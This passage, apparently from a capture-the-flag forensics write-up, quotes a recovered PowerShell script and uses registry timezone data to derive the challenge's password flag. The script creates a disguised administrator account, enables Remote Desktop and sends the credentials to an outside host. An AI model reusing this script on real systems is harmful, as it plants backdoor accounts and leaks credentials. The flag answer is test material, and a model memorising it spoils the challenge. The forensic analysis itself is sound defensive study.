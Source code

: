 ```powershell
    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

The script shows the password format: `Watson_$timestamp` where timestamp is in `yyyyMMddHHmmss` format.

From Question 7, I knew the user was created at `2025-08-24T23:05:09.7646587Z` (UTC), but I needed to find the actual local time when the script executed.

To do this, I installed Registry Explorer (Eric Zimmerman tool) from https://ericzimmerman.github.io/#!index.md and examined the timezone information at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` in `C:\Windows\System32\config\SYSTEM`:

![Timezone information in Registry Explorer](screenshots/q9_timezone.png)

Key values found:
- **TimeZoneKeyName:** Pacific Standard Time
- **Bias:** -480 minutes = -8 hours → UTC-8
- **ActiveTimeBias:** +420 minutes = +7 hours → UTC-7
- **DaylightBias:** -60 minutes

After doing the calculations:
- Base offset (Bias): -480 minutes = -8 hours → UTC-8
- Active offset during event time (August): +420 minutes = +7 hours → UTC-7
- **Conclusion:** System was in Pacific Daylight Time (PDT) = UTC-7

Therefore:
- UTC time: `2025-08-24T23:05:09`
- Local time: `2025-08-24T16:05:09` (subtract 7 hours)
- Password format: `Watson_20250824160509`

**Flag:** `Watson_20250824160509`

---